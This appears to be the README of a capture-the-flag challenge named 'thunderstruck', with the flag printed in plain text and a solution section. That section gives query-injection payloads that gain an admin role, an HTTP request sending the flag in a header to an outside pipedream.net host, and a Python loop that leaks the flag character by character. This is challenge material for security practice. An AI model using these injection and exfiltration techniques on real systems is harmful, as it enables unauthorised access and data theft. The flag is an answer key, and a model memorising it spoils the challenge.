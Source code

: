 # thunderstruck

## Description

```
Description here please
```

### Flag

`dam{sq1_4nd_3xcel_ar3_w3ak_gr4phs_3re_fun}`

## Checklist for Author

* [ ] Challenge compiles
* [ ] Dockerfile has been updated
* [ ] `base-container/run_chal.sh` has been updated
* [ ] `build-artifacts` has been updated to include any files needed from the remote service (i.e. libc)
    * If there are no files needed from the container, please **delete** this file to speed up CI/CD runs
* [ ] There is at least one test exploit/script in the `tests` directory
* [ ] Update `.dockerignore` with files that won't necessitate a container rebuild

## Info

_Author, put whatever you want here_

```
$ CHAL_CORTEX_VIEW=862bffd74c0bfe5d8986548010d395b5 CHAL_CORTEX_URL=loop CHAL_SECRET_KEY=asdfasdfasdfasdf python thunderstruck.py
```

### solution

to get admin:

```
{$a=a return($a.rjust(128,a))} auth:creds:user=asdf [+#role.admin] /////////////////////////////////////////////////////////////
```

to get the flag, there are at least 3 solutions:

* make a new meta:event node and put the flag in :summary
```
{$a=a return($a.rjust(128,a))} it:dev:str^=dam $f=$node.value() {spin | [meta:event=* :summary=$f +#ingest]} ///////////////////
```

* lib.inet.http.get it out to somewhere (this one is too long but the concept is there)
```
{$a=a return($a.rjust(128,a))} it:dev:str^=dam | $lib.inet.http.get("https://en6bw77peg0iw.x.pipedream.net", headers=({'x':$node.value()})
```

* leak it one char at a time
```py
flag = "dam{"
while not flag.endswith("}"):
    for c in FLAG_CHARSET:
        candidate = flag + c
        query = r"{$a=a return($a.rjust(128,a))} it:dev:str^='" + candidate + "' "
        query = query.ljust(128, "/")
        r = sess.post(BASE_URL + "/lookup", data={"query": query}, allow_redirects=True)
        if "sus indicator!" in r.text:
            flag += c
            print(f"found: {c}\t{flag}")
            break
```
